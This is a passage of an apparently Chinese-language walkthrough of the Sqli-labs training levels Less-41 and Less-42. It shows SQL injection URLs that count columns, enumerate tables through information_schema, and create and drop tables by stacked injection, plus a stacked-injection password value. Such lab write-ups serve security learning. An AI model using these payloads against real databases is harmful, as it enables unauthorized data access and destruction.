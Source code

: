 **查看列数**<br />http://www.web.com/sql/Less-41/?id=1 order by 3--+<br />使用4时没有回显，使用3时回显正确，说明有三列<br />![](https://img-blog.csdnimg.cn/20200726111042479.png#crop=0&crop=0&crop=1&crop=1&id=AOVlN&originHeight=124&originWidth=337&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**以下步骤与Sqli-labs-Less-38相似，不同的是Sqli-labs-Less-41没有错误回显**

**堆叠注入**<br />**创建表**<br />http://www.web.com/sql/Less-41/?id=1; create table sqli41 like users;--+

**查看是否创建成功**<br />http://www.web.com/sql/Less-41/?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+<br />![](https://img-blog.csdnimg.cn/20200726111345805.png#crop=0&crop=0&crop=1&crop=1&id=GPDYj&originHeight=147&originWidth=660&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
成功

**删除表**<br />http://www.web.com/sql/Less-41/?id=-1; drop table sqli41;--+

**查看是否成功删除**<br />http://www.web.com/sql/Less-41/?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+<br />![](https://img-blog.csdnimg.cn/20200726111438528.png#crop=0&crop=0&crop=1&crop=1&id=rn33L&originHeight=157&originWidth=629&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**成功**


# Sqli-labs-Less-42
![](https://img-blog.csdnimg.cn/20200726153407998.png#crop=0&crop=0&crop=1&crop=1&id=b25aK&originHeight=85&originWidth=1071&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
打开Sqli-labs-Less-42关，乍眼一看很眼熟，有一种似曾相识的感觉，与Sqli-labs-Less-24差不多。<br />Sqli-labs-Less-24使用的是二次注入的方法，在Sqli-labs-Less-42也是使用二次注入的方法吗？<br />答案是：不是

**首先我们使用admin登录**<br />![](https://img-blog.csdnimg.cn/20200726154332557.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=gf6bA&originHeight=255&originWidth=396&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
使密码变得可见，将password修改为text<br />![](https://img-blog.csdnimg.cn/20200726154448137.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=ClMTe&originHeight=218&originWidth=681&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
![](https://img-blog.csdnimg.cn/20200726154612915.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=Irsqa&originHeight=221&originWidth=387&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
登录，成功<br />![](https://img-blog.csdnimg.cn/20200726154635886.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=VcioP&originHeight=404&originWidth=497&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**尝试在password里面进行堆叠注入**<br />a';create table sqli42 like users;#<br />![](https://img-blog.csdnimg.cn/20200726155247980.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=lsnOx&originHeight=215&originWidth=329&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

登录后，报错<br />![](https://img-blog.csdnimg.cn/20200726155313353.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=aOueJ&originHeight=246&originWidth=571&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
